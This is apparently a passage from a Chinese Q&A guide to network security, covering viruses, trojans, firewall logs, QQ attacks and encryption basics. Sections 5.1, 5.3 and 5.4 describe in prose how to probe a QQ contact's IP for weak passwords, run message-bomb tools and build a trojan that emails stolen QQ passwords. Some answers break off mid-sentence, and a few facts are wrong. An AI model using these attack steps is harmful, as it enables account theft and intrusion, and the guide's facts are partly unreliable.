- （2）尽量不要直接在服务器运行办公自动化软件。因为有很多宏病毒发作是恶性的，一旦遇到发作为格式化硬盘、删除重要文件等现象，顷刻可以传染到整个网络，后果就非常严重。
- （3）尽可能在服务器上应用 SQL Server 等 C/S 方式的应用软件，这样可减少病毒在网络中的传播。
- （4）用户的权限和文件的读写属性要加以控制。用户权限越大，在工作站上能看到的共享目录和文件就越多。那么一旦工作站感染上病毒，所能传染的范围就越大，破坏性就越强。
- （5）尽量采用 32 位 NTFS 文件分配格式。有的用户在安装系统时，一部分为 16 位的 FAT 格式，一部分为 32 位 NTFS 格式。这样就会把基于 DOS 的 16 位的病毒感染到 Windows 服务器的 FAT 部分，严重时病毒破坏 FAT 部分而导致系统无法启动。
- （6）在网络中严格控制不知名的外来光盘。因为 Windows 服务器很容易把光盘作为共享给用户调用，这样可以避免传染病毒。

#### 4.6 如何防范手机病毒？

答：手机病毒和计算机病毒一样，它可以通过电脑执行从而向手机乱发短信息。黑客如果对手机进行攻击，通常有三种方式：一是攻击 WAP 服务器使 WAP 手机无法接受正常信息。二是攻击、控制网关，向手机发送垃圾信息。三是直接攻击手机本身，使手机无法提供服务。这种破坏方式难度相对较大，以目前的技术水平还很难达到。

对手机病毒可以采取如下措施：

- （1）关闭乱码电话。当对方的电话打过来时，本来屏幕上显示的应该是来电电话号码，但却显示别的字样或奇异的符号。如果遇到上述场合，接电话者应不回答或立即把电话关闭。如接听来电，则会感染上这种病毒，同时机内所有新名词及设定将被破坏。
- （2）尽量少从网上下载信息。病毒要想侵入，要先破手机短信息的保护系统，再过复杂的编码程序，再在流动网络上传送，并不是那末容易，但随着 3G 时代的来临，手机趋向一部小型电脑，有电脑病毒就会有手机病毒。
- （3）防止短信息中可能存在的病毒。短信息的收发越来越成为移动通信的一个重要方式，然而短信息也是感染手机病毒的一个重要途径。在去年亚洲反病毒大会上透露出的消息表明，手机病毒的发展已经从潜伏期过渡到了破坏期，已经引起各界的注意。手机用户一旦接到带有病毒的短信息，阅读后就会出现手机键盘被锁，甚至破坏手机 SIM 卡等恶性手机病毒。
- （4）对手机进行查杀病毒。目前应对手机病毒的主要技术措施有两种，其一是通过无线网站对手机进行杀毒；其二是通过手机的 IC 接入或红外传输口进行杀毒。

#### 4.7 炸弹攻击的原理是什么？

答：炸弹攻击是利用特殊的攻击软件，在短时间内向目标机集中发送大量超出系统接收范围的信息或者垃圾信息，目的是使对方目标机出现超负荷、网络堵塞等状况，从而造成目标系统崩溃及拒绝服务。常见的炸弹攻击有邮件炸弹、逻辑炸弹、聊天室炸弹、特洛伊木马、网络监听等。

#### 4.8 什么是邮件炸弹？

答：邮件炸弹攻击是各种炸弹攻击中最常见的攻击手段。现在网上的邮件炸弹程序很多，虽然它们的安全性不尽相同，但基本上都能保证攻击者的不被发现。其危害原理是：由于接收邮件信息需要系统来处理，而且邮件的保存也需要一定的空间。所以，因邮件炸弹而导致的巨量邮件会大大加剧网络连接负担、消耗大量的存储空间，甚至溢出文件系统，这将会给 Unix、Windows 等许多操作系统形成威胁。除了操作系统有崩溃的危险之外，由于大量垃圾邮件集中涌来，将会占用大量的处理器时间与带宽，造成正常用户的访问速度急剧下降。而对于个人的免费邮箱来说，由于其邮箱容量是有限制的，邮件容量一旦超过限定容量（即邮箱被“撑爆”），系统就会拒绝服务。

#### 4.9 什么是逻辑炸弹？

答：逻辑炸弹，是指在某种逻辑条件下来调用隐藏在程序中的破坏代码，它通过对计算机程序进行修改，使之在某种特定条件下触发，按某种特殊的方式运行，并造成硬盘数据丢失。在不具备触发条件的情况下，系统运行情况良好，用户也感觉不到异常之处。但是，触发条件一旦被满足，逻辑炸弹就会“爆炸”，可以严重破坏计算机数据，或者使自动化设备瘫痪等严重后果。

#### 4.10 什么是聊天室炸弹？

答：一般的聊天室炸弹有两种，一种是使用 JavaScript 编就的，只有在支持 JavaScript 的聊天室才可以使用它；另外一种炸弹是基于 IP 原理的，使用时需要知道对方的 IP 地址或者主机支持扩展邮件的标准。如果主机是 Unix 的，且支持扩展邮件标准，那么可以使用 flash 之类的软件去袭击；如果知道对方的 IP 地址，也可以使对方的系统的软件过载。此外，还有浏览器炸弹和留言本炸弹等。当触发浏览器炸弹的时候，系统会打开无数的窗口，直到耗尽计算机资源导致死机为止。

#### 4.11 木马一般潜伏在哪里？

答：下面是木马潜伏的一些途径。

- (1) 伪装在普通文件中。这个方法现在很流行，普通操作者很容易上当。常见的方法是把可执行文件伪装成图片或文本，然后把图标改成 Windows 的默认图片图标，再把文件名改为“*.jpg.exe”，不注意的人一点这个图标就中木马了。
- (2) 隐藏在配置文件中。利用配置文件的特殊作用，木马很容易就能在大家的计算机中运行、发作，从而偷窥或者监视大家。
- (3) 集成到程序中。为了不让用户能轻易地把它删除，木马常常集成到程序里，一旦用户激活木马程序，那么木马文件和某一应用程序捆绑在一起，然后上传到服务端覆盖原文件，这样即使木马被删除了，只要运行捆绑了木马的应用程序，木马又被会被安装上去了。绑定到某一应用程序中，如绑定到系统文件，那么每次 Windows 启动均会启动木马。
- (4) 潜伏在“Win.ini”、“System.ini”、“Winstart.bat”等文件中。木马要想达到控制或者监视计算机的目的，必须要运行，然而没有人会傻到自己在自己的计算机中运行这个该死的木马。当然，木马也早有心理准备，知道人类是高智商的动物，不会帮助它工作的，因此它必须找一个既安全又能在系统启动时自动运行的地方，于是就潜伏在“Win.ini”、“System.ini”、“Winstart.bat”等系统文件中。
- (5) 内置到注册表中。由于注册表由于比较复杂，木马常常喜欢藏在这里，检查一下：[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion]下所有以“run”开头的键值；[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion]下所有以“run”开头的键值；[HKEY-USERS\.Default\Software\Microsoft\Windows\CurrentVersion]下所有以“run”开头的键值。
- (6) 捆绑在启动文件和超级连接中。即应用程序的启动配置文件，控制端利用这些文件能启动程序的特点，将制作好的带有木马启动命令的同名文件上传到服务端覆盖这同名文件，这样就可以达到启动木马的目的了。另外，木马的主人在网页上放置恶意代码，引诱用户点击，用户点击的结果不言而喻——开门揖盗！

#### 4.12 如何防范邮件防毒？

答：可以从以下几方面来防范邮件病毒：首先，关于个人收发邮件时应注意如下事项。不要轻易执行附件中的“*.EXE”和“*.COM”文件。如果朋友的信件中夹带了程序附件，但没有在信中提及或是说明，也不要轻易运行。不要盲目转发而无意中成为病毒传播者。

其次，用户在个人防护上可采用一些措施。对付电子邮件病毒，在运行的计算机上安装实时化的杀毒软件，最为有效。

最后，用户在个人账号方面还要加强安全防护。通过检查真正的 IP 地址以防假冒 Email 账号所发出的信件。可以通过邮件判断发信来源，一般邮件的“From”之后接的就是这封信的真正来源地址。同时，对自己的私人网络账号保密，可以避免收到有问题的邮件，也避免收到大量的无用广告，还可以避免别人盗用自己的账号而带来的麻烦。对于不明信件，可以置之不理，或是先通过杀毒软件检测之后再打开。

#### 4.13 如何通过 Outlook Express 阻止垃圾邮件？

长期以来，Outlook Express 占据着收发邮件软件的龙头地位。通过 Outlook Express，我们可以设置邮件规则阻止来自某个发件人或域的邮件，对特定信息过滤后，垃圾邮件将直接进入“删除”文件夹。比如有些广告网站会每天给您发几封信，当您收到第一封垃圾信后，打开“工具”菜单下“邮件规则”下的“阻止发件人”设置栏，添加这个垃圾发送者的地址或其他资料对邮件进行限制，如图 15 所示。


#### 4.14 如何判断尝试用 Ping 来探测本机的攻击日志？

答：在防火墙中，比较典型的日志记录形式为：

```
[11:11:11] xxx.xxx.xxx.xxx 尝试用 Ping 来探测本机，该操作被拒绝。
```

出现这条日志说明可能有人用 Ping 命令发送数据包来探测你是否开机并连接在网络上，其实不用担心，防火墙已经拦截了数据包。由于使用 Ping 命令去探测其他机器时，如果那台机器安装了 TCP/IP 协议，就会返回一个回应 ICMP 包，该规则允许这种 ICMP 包返回到你的机器，这样就可以用 ping 命令探测其他机器了。但是在安装防火墙之后，即使电脑连接了网络，黑客 Ping 的结果也会显示数据包无法到达，这样就会起到迷惑黑客的作用。

如果有多台不同 IP 的计算机试图利用 Ping 的方式来探测本机。表明日志中所列机器感染了“冲击波”病毒。感染了“冲击波杀手”的机器会通过 Ping 网内其他机器的方式来寻找 RPC 漏洞，一旦发现，即把病毒传播到这些机器上。

#### 4.15 如何判断“试图连接本机的Http端口或FTP端口”？

答：在防火墙中，比较典型的日志记录形式为：

> [11:11:11] xxx.xxx.xxx.xxx 试图连接本机的Http[80]端口，TCP标志：S，该操作被拒绝。

表示黑客扫描用户是否开放了80端口，这些可以用来判断用户是否开放了Web服务，从而寻找相应的漏洞来进行入侵。如果我们安装了IIS并开放了Web服务，即会开放80端口。不过一般我们所遇到的大都是别人的扫描行为，不必过于担心。如果在防火墙日志中连续某个时刻，有来自于IP地址为“xxx.xxx.xxx.xxx”的用户试图连接电脑，并扫描电脑是否开放了80端口，或者经常收到来自外部IP高端口类似TCP的连接请求，就要小心对方电脑是否中了病毒，也有可能是有人使用软件攻击。如果担心自己的Web服务器被病毒入侵，可以在服务器上安装防火墙，并设置应用程序规则进行拦截。

#### 4.16 如何判断“试图连接本机的7626端口”的攻击日志？

答：在防火墙中，比较典型的日志记录形式为：

> [11:11:11] xxx.xxx.xxx.xxx 试图连接本机的7626端口，TCP标志：S，该操作被拒绝。

这条日志说明有远程电脑用软件连接到了你的7626端口，那么他为什么要连接到7626端口上呢？7626是国产著名木马“冰河”所使用的默认端口，冰河的客户端通过连接服务器端的7626端口可以完成木马入侵。那么这条记录是否就表明我已经被木马入侵了呢？答案是否定的。首先对方连接你的7626端口并不一定表示你就中了木马冰河，这只是说明对方在探测有哪些机器开放了7626端口。其次，即使中了这个木马，对方也没有成功地入侵你的电脑，因为防火墙已经提示了“该操作被拒绝”。

#### 4.17 如何判断“接收到xxx.xxx.xxx.xxx的IGMP数据包”？

答：在防火墙中，比较典型的日志记录形式为：

> [11:11:11] 接收到 xxx.xxx.xxx.xxx 的 IGMP 数据包，该包被拦截。

出现这条日志并不表明我们的电脑受到了攻击，不过黑客可以通过编写攻击程序，利用Windows操作系统本身的BUG，采用特殊格式的数据包向目标电脑发动攻击，IGMP的全称是Internet组管理协议，它是IP协议的一个扩展，它主要用于IP主机向它的邻近主机通知组成员身份。用于防御IGMP Nuck攻击程序，IGMP Nuck攻击程序会导致某些机器崩溃。IGMP对于Windows普通用户没什么用途，但由于Win9X操作系统的内核缺陷，其自身存在一个IGMP漏洞，因此有人会利用这个漏洞向指定主机发送大量的IGMP数据包，使Windows操作系统的网络层受到破坏，导致死机，这在防火墙日志中也会有记载。对付这类情况最好安装IGMP数据包的补丁。

#### 4.18 如何判断“试图连接本机的139端口”的攻击日志？

答：在防火墙中，比较典型的日志记录形式为：

> [11:11:11] xxx.xxx.xxx.xxx 试图连接本机的NetBios-SSN[139]端口，TCP标志：S，该操作被拒绝。

139端口是NetBIOS协议所使用的端口，在安装了TCP/IP协议的同时，NetBIOS也会被作为默认设置安装到系统中。139端口的开放意味着硬盘可能会在网络中共享，网上黑客也可通过NetBIOS知道你的电脑中的一切。出现这种日志还有一种可能是，对方机器可能中了“尼姆达”病毒，这种病毒可以通过E-mail、共享网络资源、IIS服务器传播，同时它也是一个感染本地文件的新型病毒，它们会搜寻局域网内一切可用的共享资源，并会将病毒复制到取得完全控制权限的共享文件夹，以达到病毒传播之目的。我们可以安装防火墙保护139端口或者在TCP/IP协议属性中关闭NetBIOS协议。

#### 4.19 如何手工清除电脑里的病毒和木马？

答：在上网的过程中，如果不小心中了病毒但身边又没有杀毒软件时，可以采用以下方法来清除电脑里的病毒和木马：

第一种方法：检查系统配置文件。检查系统配置文件最好的方法是：从开始菜单运行“msconfig.exe”打开Windows中的“系统配置实用程序”，然后配置Config.sys、Autoexec.bat、system.ini和win.ini等文件，如图16所示。


第二种方法：检查注册表是否被修改，检查之前最好先给注册表备份。首先检查注册表的如下键值：

```
[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run]
[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Runserveice]
[HKEY_LOCAL_MACHINE]
[HKEY_CURRENT_USER\SOFTWARE\Microsoft\Internet Explorer\Main]
[HKEY_CLASSES_ROOT\inifile \shell\open\command]
[HKEY_CLASSES_ROOT \txtfile\shell\open\command]
```

对于前两项，需要查看键值中有没有自己不熟悉的自动启动文件，扩展名一般为“.exe”，记住木马程序的文件名后，在整个注册表中搜索，凡是看到了一样的文件名的键值就要删除，接着到电脑中找到木马文件的藏身之处将其彻底删除。对于后四项，需要检查其键值是否被修改，文件类型的默认打开程序是否被更改。

另外，还可以检查“C:\windows”下的“win.ini”文件，其中 “run=” 和 “load=” 是需要重点关照的对象；检查 “C:\windows” 下的 “system.ini” 文件，在 BOOT 下面有个 “shell= 文件名”，正确的文件名应该是 “explorer.exe”，如果被改为 “shell= explorer.exe 程序名”，那么后面跟着的可能就是木马程序，然后就要在硬盘找到这个程序并将其删除了。

### 五、即时通信软件攻防篇

#### 5.1 如何利用QQ获取攻击信息?

答：网络上的每一台电脑都有其各不相同的IP，学会找出特定对象的IP就显得非常重要了，如果对方在QQ上出现，要查到他的IP就简单不过了，上网搜索一下“QQ查IP补丁”，就会发现一大堆这样的软件。在珊瑚虫外挂参数定制器上，可以设置IP对话框，如图17所示。


安装好后，运行新的QQ，随便打开一个好友的“发送信息”窗口，就可以看到IP地址了。然后，可以利用扫描器获取详细信息，探测主机是否开放3389端口，从中选出一些能用的“弱口令”就可以尝试了。当然，这只是一种QQ攻击的思路；如果瞄准了某个目标，就可以使用这个方法来探测，也许能有意外的收获。

#### 5.2 如何突破内网的限制登录QQ?

答：Socks代理就是采用了Socks协议的代理服务器，Socks是个电路级的底层网关。与HTTP代理不同，Socks代理只是简单地传递数据包，而不必关心是何种应用协议（比如FTP、HTTP和NNTP请求）。所以，Socks代理比其他应用层代理要快得多。它通常绑定在代理服务器的1080端口上。打开IE浏览器“工具”菜单下的“Internet选项”，在弹出的窗口中单击“连接”选项卡，再选择“局域网设置”按钮。这时，窗口下方会出现一个关于代理服务器的设置，选中“为LAN使用代理服务器”，单击右边的“高级”按钮，就可以看到关于代理服务器协议类型的设置，其中就包括Socks协议，如图18所示。


可以用于电子邮件、新闻组软件、网络传呼ICQ、网络聊天MIRC和各种游戏应用软件当中。

#### 5.3 什么是QQ消息“炸弹”? 如何进行防范?

答：QQ消息“炸弹”是指攻击者在瞬间向受害者的QQ发送大量的垃圾信息，开启无数个消息窗口，让QQ应接不暇，从而无法正常使用。由于这种“炸弹”大量占用有限的网络带宽，阻塞网络，所以会导致用户上网速度变慢，当大量的系统资源被占用后，还有可能造成电脑死机。这种消息“炸弹”所发出的QQ消息其实和我们正常聊天时所发出的消息一样，只不过它的内容无意义，发送速度非常快，势如洪水不可抵挡。

QQ消息“炸弹”存在的主要原因是：由于QQ本身的网络协议以及软件的设计存在着漏洞，QQ主要采用UDP协议进行数据传输。由于UDP协议的不可靠性，使得伪造UDP数据包并不是一件困难的事，再加上点对点的传输方式让普通用户的真实IP地址很容易暴露在攻击者的面前，所以消息“炸弹”就能通过伪造的消息包，轻松地针对IP地址进行攻击，炸你没商量！具有代表性的有“飘叶千夫指”、QQsend以及早期的QQjoke等，这些攻击软件的使用都比较简单，运行后先填上受害者的电脑IP地址和端口号，然后再填上欲发送的消息内容以及发送次数，就可以向对方的QQ发送垃圾消息了。下面我们以经典的“飘叶千夫指”为例进行介绍，如图19所示。


对于普通QQ用户来说，最简单的办法是使用代理服务器来登录QQ，以达到隐藏自己电脑真实IP地址的目的。当QQ正在遭受“炸弹”攻击时，可以把攻击者从QQ好友拖到黑名单里，并将QQ设置为“拒绝陌生人消息”，另外，要记住及时更新QQ的版本，因为它的每一新版本都

#### 5.4 QQ号是如何被盗的？

答：盗取 QQ 号有很多种方法，其中，比较经典的模式应该是“设置邮箱 + 生成木马 + 诱骗点击 + 发送密码”了。首先来看看“QQ 密码发送者”这个软件，该软件非常适合在网吧内使用，只要你在别的机器上配置好该软件，然后换一台机器上网，一旦别人用那台机器登录 QQ，当然是把他的 QQ 拱手相送了！下载运行该软件，在弹出的窗口中，只要输入一个有效的邮箱，然后点击“生成 QQ 木马”按钮即可生成一个木马，接下来就是把该木马发送给对方。攻击者一般具有一定的“欺骗”能力，一旦对方运行了该软件，并再次登录 QQ，那么对方的 QQ 号码、密码以及对方机器 IP 等信息都会通过邮件发送到设置好的邮箱。类似的软件还有“无敌 QQ 密码盗取器”等。

随着技术的发展，更隐蔽的攻击方式也开始层出不穷。“啊拉 QQ 大盗”软件的特色功能在于：采用多邮箱分级收信，一个收靓号，一个收普通号；针对主流杀毒软件和防火墙，号称“彻底摧毁防火墙”；能够显示目标机 IP 地址和实际物理地址。设置完毕，单击“生成文件”，就可以在本地目录生成一个 exe 文件。中木马后，在进程中会出现一个 Ntdhcp.exe 进程。登录后，密码即可发到邮箱，甚至还可以显示对方 QQ 的在线状态，双击即可与之交谈。如果要卸载这个木马程序，单击界面上的“卸载程序”按钮，即可卸载掉木马。类似的软件还有很多，如“广外幽灵”等。

#### 5.5 如何阻断QQ的连接？

答：局域网中禁止 QQ 的问题比较繁琐，传统的解决方法是通过对 QQ 的端口和服务器地址进行封堵。在阻断 8000 端口的连接后，发现 QQ 还会通过 UDP 的 8001 和 TCP 的 8000、8001 端口进行连接。鉴于这些端口目前只有 QQ 使用，所以可以基于端口来做阻断规则。在用防火墙阻断以上端口的数据包后，发现 QQ 还会通过 TCP 的 80 和 443 端口进行连接。如果针对这两个端口作阻断规则，会影响用户的正常上网，所以只能对服务器的 IP 地址来做规则。在针对 IP 作阻断规则后，QQ 已基本无法登录。仔细检查后可以发现，QQ 安装目录下的 Config.db 文件记录了 QQ 服务器的地址。因此，在用防火墙阻止用户使用 QQ 上网时，除了阻止 TCP 和 UDP 的 8000、8001 端口外，还需阻断与 QQ 服务器的连接。

实际应用中，由于新版 QQ 可以采用 TCP 的 80 端口和加密代理、HTTP 代理等方式进行登录，所以采用传统的方式对局域网内的 QQ 进行封堵的方法很难达到效果。虽然以上方法可以起到阻断 QQ 连接的作用，但如果腾讯增加新的 QQ 服务器，QQ 也还是可以登录的。另外，用第三方的代理软件如 NEC E-BORDER 等，支持 Anonymous 的 Socks5 代理还是可能绕过去，登录使用 QQ。

#### 5.6 如何利用软件提高QQ安全性？

答：说到 QQ 的安全，很多朋友都知道密码保护等措施。但是，如果能把它的登录界面或者快捷键修改一下，就可以达到安全保护的目的，那该多好啊！现在，有了 eXeScope，就可以在没有资源文件的情况下分析、显示软件的各种信息，重写可执行文件的资源，包括 EXE、DLL、OCX 等。软件下载地址为：http://www1.skycn.com/soft/2128.html

其使用方法为：

- 第一步：安装。eXeScope 的安装十分简便，启动后的界面十分简单。比如，打开 QQ 目录下的“QQRes.dll”，这时在左侧的窗口中会显示出“头部”、“导入”和“资源”三个树状列表。工具栏下面有两个白色区域，左边的是选择对象区，其中列出可以编辑的对象；右边的是编辑区，在里面可以对显示资源进行修改。注意，修改的时候要把 QQ 关闭，改完之后也要将软件关闭后重新启动。

- 第二步：通过 eXeScope 使 QQ 登录窗口的“QQ 号码”框和“QQ 密码”框均为灰色。运行 eXeScope，单击“文件”菜单下的“打开”命令，打开 QQ 安装目录下的“LoginCtrl.dll”文件，顺次点击“资源”→“对话框”→“450”，这就是 QQ 登录窗口的对话框资源。在中间的资源编辑窗口中双击任意一个资源条目，如“Static: QQ 密码:”，会出现一个小窗口，按 F8 键，打开对话框编辑器，就会看到一个和登录 QQ 时类似的窗口，在该窗口中选中“QQ 密码”右边的文本框，就可以看到软件界面中 Edit 文本变成了灰色。回到软件主界面，在右侧窗口中将“禁用”选项选中，这样就可以将 QQ 登录窗口的“QQ 密码”栏禁用了。同理你还可以将“Pushbutton”、“QQ 号码”禁用或隐藏起来，修改完毕，将文件保存后退出，如图 20 所示。


- 第三步：QQ 中还有很多地方的密码会以星号密文显示，这样虽然可以提高软件的安全性，但给我们查看、共享信息也带来了不便。运行 eXeScope，选择“文件→打开”命令，找到 QQ 安装目录下的 QQRes.dll 文件，用鼠标顺次点击“资源”→“对话框”→“1142”，就可以对修改密码界面进行设置了。单击“编辑”标签，勾选“密码”一项，最后保存退出即可。修改后，就可以使用明文进行显示了。

现在，各种 QQ 病毒、QQ 木马、各种攻击、盗号工具纷纷出炉，尤其是 QQ 木马，很多木马工具可以通过查看当前运行的应用程序的标题是否是特征文字。要对付此类攻击，只要修改 QQ 的登录窗口的标题栏，这样木马就不能识别用户正在登录 QQ 了。

#### 5.7 如何阻断MSN的连接？

答：阻断 MSN 连接最简单高效的方法就是直接禁止对“Messenger.hotmail.com”等服务器的访问，当然还可以

### 六、加密与解密篇

#### 6.1 在网络安全中，加密技术是什么？

答：加密技术是最常用的安全保密手段，它利用技术手段把重要的数据变为乱码（加密）传送，到达目的地后再用相同或不同的手段还原（解密）。加密技术包括两个元素：算法和密钥。算法是将普通的信息或者可以理解的信息与一串数字（密钥）结合，产生不可理解的密文的步骤，密钥是用来对数据进行编码和解密的一种算法。在安全保密中，可通过适当的密钥加密技术和管理机制来保证网络的信息通信安全。

#### 6.2 入侵者一般通过哪些方式获得密码？

答：主要有以下方法：

- （1）监听明文口令信息。大量的通信协议比如Telnet、Ftp、基本HTTP都使用明文口令，这意味着它们在网络上是赤裸裸地以未加密格式传输于服务器端和客户端，而入侵者只需使用协议分析器就能查看到这些信息，从而进一步分析出口令。
- （2）监听加密口令信息。当然，更多的通信协议是使用加密信息传输口令的。这时，入侵者就需要借助字典或者采用暴力攻击法来解密了。
- （3）重放攻击（Replay attack）。这也是一种间接的攻击方式，入侵者不必对口令进行解密，需要的是重新编写客户端软件以使用加密口令实现系统登录。
- （4）窃取口令文件。口令文件通常都保存在一个单独的文件中，入侵者一旦获取了口令文件，就可以使用破解程序发现其中的弱口令信息。
- （5）观察。用户可能由于设置的口令复杂难记而将它写在一张纸上压在键盘下随时查看，或者在输入口令的时候不管身后有没有站着一位“看客”。入侵者的搜索力与记忆力都非常好，这些操作习惯对他们来说简直就是轻松练兵。所以，别忽视入侵者的眼睛！
- （6）社会工程。是指采用非隐蔽方法盗用非授权账户进行的非法活动，比如使用其他人的机器、冒充是处长或局长骗取管理员信任得到口令等等。

#### 6.3 危险的密码一般有哪几种？

答：一般来说，不安全的密码主要有以下几种：

- （1）使用用户名或账号作为密码。虽然这种密码很方便记忆，可是其安全几乎为0。因为几乎所有以破解密码为手段的黑客软件，都首先会将用户名作为破解密码的突破口，而破解这种密码的速度极快，这就等于为黑客的入侵提供了敞开着的大门。
- （2）使用用户名或账号的变换形式作为密码。将用户名颠倒或者加前后缀作为密码，虽然容易记忆又可以使一部分初级黑客软件一筹莫展。但是，现在已经有专门对付这类密码的黑客软件了。
- （3）将手机、传呼机、电话号码或者生日作为密码。几乎所有的黑客解密软件均首先会将账户作为密码进行破译解密，比较高级的黑客解密软件均有此解密功能，解密时间极短。将用户的生日作密码的也同样有章可循，如出生年份一般均为19开头，月份在01－12之间，日期在01－31之间，如此一来，搜索解密的排列组合将大大缩小。
- （4）将常用的英文单词作为密码，避免使用字典词句、专有名词或外国语的词句。由于黑客解密软件大多具有数十万计的英文单词的解密词库，破译密码只需数十秒甚至几秒就可以搞定。
- （5）使用常用的英文单词作为密码。尤其是如果选用的单词是十分偏僻的，那么这种方法远比前几种方法都要安全。但是，对于有较大的字典库的黑客来说，破解它也并不那么太困难。
- （6）使用5位或5位以下的字符作为密码。5位的密码是很不可靠的，而6位密码也不过将破解的时间延长到一周左右。

#### 6.4 破解密码时，字典法有什么作用？

答：字典法的工作原理是这样的：由于网络用户通常采用某些英文单词或者自己姓名的缩写作为密码，所以就先建立一个包含巨量英语词汇和短语、短句的可能的密码词汇字典（也称“字典档”），然后使用破解软件去一一尝试，如此循环往复，直到找出正确的密码，或者将密码词汇字典里的所有单词试完一遍为止。这种破解密码方法的效率远高于穷举法，因此大多数密码破解软件都支持这种破解方法。

#### 6.5 如何设置安全可靠的密码？

答：设置密码，可以从“长度、广度和深度”着手。首先是长度。密码越长，就越难被破解。对于个人用户来说，就是越长越好。从破解的概率来看，也是越长的密码越难被破解。通常推荐密码是在六和九个字符之间。但是只要操作系统允许而且用户能够记得住密码的话，更大的长度也是可以接受的。

然后是广度。广度是描述使用不同的字符类型的方面。

密码设置不仅要考虑字母，也可以使用数字和像“@”、“#”、“$”、“&”一样的特殊字符。在大多数操作系统中，大写和小写字母也被认为是不同的字符。
最后是深度。深度是指选择一个有一定意义的密码，因此别从密码的角度考虑，而可以从它的意思的角度来考虑。你可以用你的名字的简写，或是一句英文句子的第一个字母的组合等等。例如，选出一句我们很欣赏的名言警句如“有志者事竟成”，使用句中的第一个字母，将首字母的缩写词作为密码；或者选择两个没有任何共同点的短词，将它们用标点或数字连接起来，如“sec23urityD”。
另外，网上有很多优秀的密码生成软件，虽然产生的密码不一定适合您的胃口，但密码的安全性还是很高的。比如PassWD2000，其生成密码的功能完全能满足一般需要，并且管理、生成相结合方便许多。上述安全密码的设置技巧也适用于其他安全场合。

#### 6.6 加密过程中，有哪些简单有趣的方法？

答：传统的加密方法有代码加密、替换加密、变位加密以及一次性密码簿加密。

- 1. 代码加密。发送秘密消息的最简单方法，就是使用通信双方预先设定的一组代码，它简单而有效，得到了广泛的应用。例如，我们经常在特务电影或者侦察电影中看到的暗号：
密文：老鼠已经出洞了
明文：匪徒已出现在目标区

- 2. 替换加密。明文中的每个字母或每组字母被替换成另一个或一组字母，例如，下面的一组字母之间的对应关系就构成了一个替换加密器。在很多军事电台截取的信息中，就是要运用类似的方法去破解敌人的情报：
明文字母：A B C D ……
密文字母：L K J L ……

- 3. 变位加密。变位加密不隐藏原明文的字符，但却将字符重新排列。例如：
密钥：3 1 4 5 2 6 0
明文：火车已安全发出
密文：出车全火已安发

- 4. 一次性密码簿加密。如果要既保持代码加密的可靠性，又保持替换加密器的灵活性，可采用一次性密码簿进行加密。密码簿的每一页都是不同的代码表，可以用一页上的代码来加密一些词，用后毁掉；再用另一页的代码加密另一些词，直到全部的明文都被加密，破译密文的唯一方法就是获得一份相同的密码簿。

#### 6.7 完整的加密系统由哪些部分构成？

答：加密和解密过程组成为“加密系统”，明文与密文总称为“报文”。任何加密系统，不管形式多么复杂，至少包括以下4个组成部分：

- 待加密的报文，也称明文。
- 加密后的报文，也称密文。
- 加密、解密装置或算法。
- 用于加密和解密的钥匙，它可以是数字、词汇或语句。

加密是在不安全的环境中实现信息安全传输的重要方法。例如：读者要发送一份文件给别人时，先用密钥将其加密成密文，当对方收到带有密文的信息后，也要用钥匙将密文恢复成明文。即使说发送的过程中有人窃取了，得到的也是一些无法理解的密文信息。

#### 6.8 什么是密钥？

答：在很多间谍影片中，我们常可以看到这样的情节，特工将一个密码箱用手铐和自己的手腕铐在一起。那么，密码箱中放置的是什么呢？多数情况下，这个箱子里面放的不是导弹发射密码，也不是化学公式，更不是入侵计划，而是用来解密的密钥。

在加密和解密系统中，密钥是一个数值，它和加密算法一起生成特别的密文。密钥本质上是非常非常大的数。密钥用位（bit）来衡量，1024位密钥代表的数是非常巨大的，我们可以感觉到特工携带的那个密码箱的分量。在公开密钥加密方法中，密钥的尺寸越大，密文就越安全。如打开IE浏览器“帮助”菜单下的“关于”选项，可以看到关于密钥长度的说明。长的密钥会在很长一段时间内是安全的。如果想保密许多年，应该选择尽量长的密钥。

#### 6.9 加密算法有哪些种类？

答：数据加密过程是由形形色色的加密算法来具体实施。如图21所示为一个加密算法分类表。


总的来说，按照保密的内容分为受限制的（restricted）算法和基于密钥（key-based）的算法。受限制的（restricted）算法的保密性基于保持算法的秘密，基于密钥（key-based）的算法的保密性基于对密钥的保密。

在基于密钥的算法中，按照密钥的特点分对称密码算法和非对称密钥算法。在对称密码算法中，收信方和发信方使用相同的密钥，其优点是有很强的保密强度，且经受住时间的检验和攻击，但其密钥必须通过安全的途径传送。比较著名的有：美国的DES及其各种变形，欧洲的IDEA；日本的FEALN、LOKI91、Skipjack、RC4、RC5以及以代换密码和置换密码为代表的古典密码等，在众多的常规密码中影响最大的是DES密码。

在非对称密钥算法中，收信方和发信方使用的密钥互不相同，而且几乎不可能从加密密钥推导解密密钥。比较著名的公钥密码算法有：RSA、背包密码、McEliece密码、Diffie-Hellman、Rabin、Ong Fiat Shamir、零知识证明的算法、椭圆曲线、ElGamal算法等等。在实际应用中，人们通常将一些算法结合在一起使用，比如：利用DES或者IDEA来加密信息，而采用RSA来传递会话密钥。下面就是一个基本的混合密码系统，即“精灵混合加密系统”。这个系统产生RSA密钥对的速度非常快，一般在3秒以内。产生后，用户可以将密钥对导出到文本文件，下面我们来看看这个软件的实现过程。主界面如图22所示。


点击“加密”按钮，即可在当前目录下产生一个后缀名为“*.mcs”的加密文件。

#### 6.10 网络安全中，经常提到的MD5算法是什么？

答：MD5的全称是Message-Digest Algorithm 5（信息-摘要算法），在90年代初由MIT Laboratory for Computer Science和RSA Data Security Inc的Ronald L. Rivest开发出来，经MD2、MD3和MD4发展而来。MD5将任意长度的“字节串”变换成一个128bit的大整数，并且它是一个不可逆的字符串变换算法，换句话说就是，即使黑客看到源程序和算法描述，也无法将一个MD5的值变换回原始的字符串，从数学原理上说，是因为原始的字符串有无穷多个，其功能类似不存在反函数的数学函数。

下面介绍一个能比较直观地反应MD5的加解密过程的应用软件即WinMD5，在很多销售游戏软件外挂的电子商务网站上面我们都可以发现这个软件的应用。软件下载地址是：http://www.ngxp.com/data/download/winmd5.exe 或 http://www.newage.net.cn/input/。其界面如图23所示。


